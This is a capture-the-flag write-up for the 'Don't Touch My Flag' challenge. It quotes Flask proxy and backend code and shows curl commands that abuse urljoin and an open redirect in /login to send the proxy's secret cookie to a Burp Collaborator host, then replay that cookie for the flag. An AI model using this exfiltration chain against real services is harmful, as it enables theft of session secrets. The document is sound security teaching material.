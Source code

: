 # Don't Touch My Flag

## Description

![](Pasted%20image%2020220312165558.png)

## Solution

We can download the files and immediately notice that there are 2 servers, a proxy server and the backend server with the flag.


### Using secret to call the backend server

Looking at the proxy server code (`proxy/app/main.py`), there are a few interesting Notes.

1.  `/` just requests the `/get` route
2. The `/get` route passes the secret cookie to a backend, to any route
	1. Usually it is to `/flag`, but we can also pass it to `/login` on the backend
 
```python
@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)
    
    r = requests.get(full_url, cookies={
        "secret": secret
    })
    print(uri, full_url, r.text)
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored


@app.route("/")
def index():
    return """
Heres your flag: <span id="flag"></span>
<script>
fetch("/get?uri=/flag")
    .then((res) => res.text())
    .then((flag) => document.querySelector("#flag").innerText = flag);
</script>
"""
```

This line of code is interesting, as it means we can inject parameters

```python
full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)
```

Hence, I tried this out, which worked

```bash
(base) [hacker@hackerbook Don't Touch My Flag]$ curl "http://chals.ctf.sg:40101/get?&uri=login%3fnext=/flag"
****************************
```

### Extracting Fake Secret

Looking at the backend code (`backend/app/main.py`), this function is interesting

```python
@app.route("/login")
def login():
    next_uri = request.args.get("next", "/")

    if request.cookies.get("secret") == secret:
        return redirect(next_uri)

    if request.args.get("secret") == secret:
        resp = make_response(redirect(next_uri))
        resp.set_cookie("secret", secret)

        return resp
    else:
        return ":(
```

The important part is the `redirect` function. The variable `next_uri` can take a full URL, not just the path, like shown below

```python
redirect("http://www.example.com")
```

As such, we tried using Burp Collaborator (from a totally legit copy of Burp Suite Pro) to get a URL that the app can call from. Afterwards, we got the app to call this URL. We can then extract the cookie.

```bash
$ curl "http://chals.ctf.sg:40101/get?&uri=login%3fnext=http%3A%2F%2F3bf83sb0bz974qukb0gyjh4y1p7fv4%2Eburpcollaborator%2Enet"
*****************************************************
```

![](Pasted%20image%2020220312165919.png)

### Getting the Flag

```bash
$ curl "http://chals.ctf.sg:40102/flag" --cookie "secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b"
CTFSG{d0nT_toUcH_mY_c00k13s}$ 
```

## Flag

`CTFSG{d0nT_toUcH_mY_c00k13s}`
